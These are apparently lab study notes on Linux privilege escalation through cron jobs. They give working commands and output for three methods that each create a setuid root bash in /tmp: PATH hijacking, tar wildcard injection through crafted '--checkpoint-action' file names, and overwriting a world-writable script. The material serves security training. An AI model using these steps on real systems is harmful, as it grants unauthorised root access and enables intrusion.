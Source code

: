### Cron Jobs

Cron jobs are like scheduled tasks.  Things that have been set up to run for a specific time period, at a specific interval.  Payloads all the things has a good bit of stuff on this as well.

You also have things called Systemd timers.  They are pretty must the same thing.  You can check those with this command.

`systemctl list-timers --all`

Scheduling a backup to run is an example of a cron job.

`cat /etc/crontab`  - This will give you a good bit of info about different things running.

```
TCM@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Here, we have the output.  Let's look at some exploits.  The bottom two, run every minute, indicated by the all asterisk.  


#### Via Cron Paths

`PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

This is the order of items being checked for a command if it's not specifically noted.  I.e., with the bottom two listed, `overwrite.sh` would follow the PATH, left to right.  `compress.sh` is going to follow it's coded path of `/usr/local/bin/` and bypass the PATH variable altogether.

`ls -la /home/user` here will show that there is no `overwrite.sh` so we can make one and place it there and the system will run it as root every minute.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`

And then....

`chmod +x /home/user/overwrite.sh`

And then give it a couple minutes to make sure that it ran and go check where you put the bash to see if it updated according to the date on the file.

Once you check the file (`ls -la /tmp` for this example), then run it.

```
TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```


#### Cron Wildcards

Here we're going to look at the bottom most line job.  So cat out the script to see what it does.

```
TCM@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Since there's a wildcard at the end of the last line (`*`), we can abuse that.  Upon checking it with `ls -la`, we find that we have read only access.

From the `/home/user` folder we can create a script.

```
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
TCM@debian:~$ chmod +x runme.sh 
TCM@debian:~$ ls
libcalc.c  myvpn.ovpn  overwrite.sh  runme.sh  tools
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\runme.sh
TCM@debian:~$ ls
--checkpoint=1  --checkpoint-action=exec=shrunme.sh  libcalc.c  myvpn.ovpn  overwrite.sh  runme.sh  tools
TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
```

Note: Writeup notes had this 7th line code working with `exec=sh\ runme.sh` as opposed to `exec=sh\runme.sh`.  Both may work but may want to try both.

This is kind of tar specific but basically because of the asterisk its taking the two checkpoints and running them as well.  When it does the `action` it creates that bash program as root and has it run as root.

#### Cron File Overwrites

`ls -la /usr/local/bin/overwrite.sh`

When we run this we see that everyone has read/write access to that shell file.  Because of this, we can actually overwrite the `overwrite.sh` file.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`

This command will actually append (`>>`) the command part onto the end of overwrite.sh